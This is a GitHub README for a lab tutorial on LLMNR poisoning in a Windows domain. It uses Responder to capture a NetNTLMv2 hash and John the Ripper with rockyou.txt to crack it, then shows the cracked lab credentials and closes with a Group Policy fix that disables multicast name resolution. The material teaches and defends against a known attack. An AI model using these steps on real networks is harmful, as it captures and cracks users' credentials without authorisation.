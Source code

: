 # LLMNR-Poisoning-Attack
[![LLMNR-Poisoning-Attack](https://img.youtube.com/vi/zEDUxnYiLx0/maxresdefault.jpg)](https://www.youtube.com/watch?v=zEDUxnYiLx0)

# Getting Started

|  __Prerequisites:__  |                                                                                      |
| :-------- | :------------------------------------------------------------------------------------------------ |
| | Machine running Kali Linux                                                                                |
| |          Windows domain controller   |
| |          Windows client connected to the domain controller   |
| |          Connection to the LAN of the Windows machines   |

# Obtaining password hash

#### Step 1: Responder
- Open terminal and run the following command.
```sh
responder -I eth0 -v

#opens Responder on eth0 interface to listen for activity
```
#### Step 2: Windows client query
- Open "Run" application and run the following command.
```sh
\\unknown-folder

# since there is no "unknown-folder" located on this domain, the machine will send a multicast request to all devices on the LAN.
```
#### Step 3: Save hash to .txt file
![hash - Copy](https://github.com/S-Hill256/LLMNR-Poisoning-Attack/assets/138057919/32943fb9-3391-4f00-b2f0-a8058779f30c)

- Highlight and copy the entire hash starting at "mscott::MYDOMAIN:
  - Open new terminal tab.
    -   Run the follwoing command.
```sh
vim scott.txt
# this open vim text editor, and allows us to create a .txt to store the hash
```
- Paste the hash into vim.
-   To save and exit your file.
```sh
press "esc"
#  exit insert mode.
press "shift + I"
type ":wq!"
# to save and exit
```
#### Step 4: Crack hash using John The Ripper
- Run the following command in terminal.
```sh
john --wordlist=usr/share/wordlists/rockyou.txt --format=netntlmv2 (.txt your made)
# runs the hash .txt file against the rockyou.txt wordlist
```

![ashw](https://github.com/S-Hill256/LLMNR-Poisoning-Attack/assets/138057919/a9ae155c-c880-42d2-9bb4-472c70369035)
- We see our Windows client login credentials.
  -  Pass: Password1 | username: mscott

# Patching

Open "Local Group Policy Editor"
- Go to Computer Configuration > Administrative Templates > Network > DNS Client > "Turn off multicast name resolution"
  - Click Enable, and Apply changes.
